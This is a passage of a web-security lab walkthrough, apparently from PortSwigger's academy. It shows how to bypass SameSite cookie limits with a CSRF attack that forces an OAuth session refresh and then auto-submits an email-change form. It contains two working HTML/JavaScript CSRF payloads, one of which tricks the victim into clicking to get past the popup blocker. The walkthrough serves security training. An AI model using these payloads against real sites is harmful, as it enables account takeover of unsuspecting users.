 ```ad-success
2. From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.
    
3. Go back to the exploit server.
    
4. Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. The following is one possible approach:
    
    ~~~
    <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@web-security-academy.net"> </form> <script> window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); function changeEmail(){ document.forms[0].submit(); } </script>
    ~~~
    
    Note that we've opened the `/social-login` in a new window to avoid navigating away from the exploit before the change email request is sent.
    
5. Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.
    
6. Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.
    

### Bypass the popup blocker

1. Realize that the popup is being blocked because you haven't manually interacted with the page.
    
2. Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:
    
    ~~~
    <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@portswigger.net"> </form> <p>Click anywhere on the page</p> <script> window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); } function changeEmail() { document.forms[0].submit(); } </script>
    ~~~
1. Test the attack on yourself again while monitoring the proxy history in Burp.
    
4. When prompted, click the page. This triggers the OAuth flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the `POST /my-account/change-email` request includes your new session cookie.
    
5. Go to your account page and confirm that your email address has changed.
    
6. Change the email address in your exploit so that it doesn't match your own.
    
7. Deliver the exploit to the victim to solve the lab.
```
